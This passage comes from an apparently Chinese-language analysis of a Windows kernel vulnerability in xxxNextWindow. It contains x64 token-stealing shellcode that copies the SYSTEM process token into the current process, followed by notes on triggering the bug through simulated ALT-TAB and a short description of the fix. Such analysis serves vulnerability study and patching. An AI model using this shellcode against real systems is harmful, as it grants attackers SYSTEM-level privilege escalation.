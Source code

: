         mov  rax, qword ptr [rax + 0x70]

        ; 得到 ActiveProcessLinks
        ; 1: kd> dt nt!_EPROCESS
        ;    +0x000 Pcb              : _KPROCESS
        ;    +0x188 ActiveProcessLinks : _LIST_ENTRY

        lea  rax, [rax + 0x188]

    tag:
        mov  rax, qword ptr [rax]

        ; 得到PID
        ; 1: kd> dt nt!_EPROCESS
        ;    +0x180 UniqueProcessId  : Ptr64 Void
        ;    +0x188 ActiveProcessLinks : _LIST_ENTRY

        mov  rbx, qword ptr [rax - 0x8] ;UniqueProcessID
        cmp  rbx, 0x4   ; 4 是System进程的PID
        jne  tag

        ; 得到token
        ; 1: kd> dt nt!_EPROCESS
        ;    +0x188 ActiveProcessLinks : _LIST_ENTRY
        ;    +0x208 Token            : _EX_FAST_REF

        mov  rbx, qword ptr [rax + 0x80] ; TOKEN of SYSTEM

        push rbx

    tag2:
        mov  rax, qword ptr [rax]
        mov  rbx, qword ptr [rax - 0x8] ; UniqueProcessID
        cmp  ebx, ecx ; 比较是不是当前进程
        jne  tag2
        pop  rbx
        mov  qword ptr[rax + 0x80], rbx ; 替换Token

        pop  rbx
        pop  rcx
        pop  rax
        popfq

        sti
        jmp  rax  ; 执行原来的函数


### 触发xxxNextWindow

如何触发xxxNextWindow是一个问题，Exploit中给出的方法是模拟ALT-TAB窗口的操作来完
成，见代码中_sim_前缀的函数。

*更详细的请看利用代码41015.c中的注释*

## 漏洞修复

通过分析漏洞发现，当xxxNextWindow在处理子窗口的时候才会触发任意地址写，于是我们只
要屏蔽掉子窗口就行了。
